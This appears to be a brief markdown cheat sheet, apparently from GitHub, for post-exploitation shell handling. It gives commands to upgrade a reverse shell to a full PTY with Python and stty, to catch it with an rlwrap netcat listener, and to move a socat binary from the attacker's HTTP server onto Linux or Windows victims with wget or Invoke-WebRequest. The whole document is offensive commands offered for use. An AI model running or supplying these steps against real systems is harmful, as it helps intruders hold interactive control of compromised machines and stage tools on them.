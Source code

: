 ## 1. Python (Only linux machine)
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
--- 
```bash
export TERM=xterm 
```
--- 
```bash
stty raw -echo; fg 
```
## 2. _rlwrap_ 
```bash
rlwrap nc -lvnp <port>
```
---
Full stabilite shell:
```bash
stty raw -echo; fg
```
## 3. Socat
```bash
sudo python3 -m http.server <port>
```
--- 
```bash
wget <LOCAL_IP>:<PORT>/socat -o /tmp/socat
```
--- 
Windows:
```PowerShell
`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`
```
